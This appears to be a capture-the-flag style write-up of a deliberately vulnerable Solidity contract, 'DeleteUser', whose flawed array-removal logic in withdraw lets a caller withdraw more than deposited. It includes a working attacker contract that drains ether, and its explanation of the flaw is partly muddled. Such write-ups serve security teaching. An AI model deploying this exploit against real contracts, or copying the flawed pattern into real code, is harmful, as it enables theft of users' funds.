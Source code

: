 # The DeleteUser smart contract has the following features:

Users can deposit ether into the contract.
Users can withdraw their deposited ether.
The contract code for DeleteUser is as follow

```solidity

pragma solidity 0.8.15;

contract DeleteUser {
    struct User {
        address addr;
        uint256 amount;
    }

    User[] private users;

    function deposit() external payable {
        users.push(User({addr: msg.sender, amount: msg.value}));
    }

    function withdraw(uint256 index) external {
        User storage user = users[index];
        require(user.addr == msg.sender);
        uint256 amount = user.amount;

        user = users[users.length - 1];
        users.pop();

        msg.sender.call{value: amount}("");
    }
}

```

The vulnerability is in the withdraw function of the DeleteUser contract

The problem arises from the way the contract manages the removal of users from the users array within the withdraw function.

```solidity
function withdraw(uint256 index) external {
    User storage user = users[index];
    require(user.addr == msg.sender);
    uint256 amount = user.amount;

    user = users[users.length - 1];
    users.pop();

    msg.sender.call{value: amount}("");
}
```

The vulnerability is in these lines of code:

```solidity
user = users[users.length - 1];
users.pop();

```

When a user takes out their ether, the contract should remove them from the `users` array. It does this by replacing the withdrawing user with the last user in the array and then deleting the last user using `users.pop()`.

However, this removal process is flawed due to the following reasons:

- The user's original index remains unchanged. If the last user in the array is the same user withdrawing funds, the withdrawal process happens twice, allowing the user to withdraw their funds twice.
- If a different user is at the end of the array, that user's information is copied to the index of the withdrawing user, making their original entry in the array redundant. This creates an opportunity for the attacker to call the `withdraw` function again with the same index and withdraw the ether of the last user in the array.

The `ExploitDeleteUser` attacker contract takes advantage of this vulnerability by depositing ether into the `DeleteUser` contract, and then calling the `withdraw` function multiple times to steal the ether. By using this approach, the attacker can successfully drain all the ether from the `DeleteUser` contract using just one transaction.

```javascript
contract ExploitDeleteUser {
    DeleteUser targetContract;
    address payable attackerWallet;

    constructor(address _targetContract, address _attackerWallet) payable {
        targetContract = DeleteUser(_targetContract);
        attackerWallet = payable(_attackerWallet);
        targetContract.deposit{value: 2 ether}();
        targetContract.deposit{value: 1 ether}();
        targetContract.withdraw(1);
        targetContract.withdraw(1);
        uint256 balance = address(this).balance;
        (bool success, ) = attackerWallet.call{value: balance}("");
        require(success, "Call to attacker wallet failed");
    }
}
```

To fix this issue, the `DeleteUser` contract should implement a safer mechanism for removing users from the `users` array. This can be achieved by using a mapping to store user balances or by implementing proper checks to avoid duplicate withdrawals.
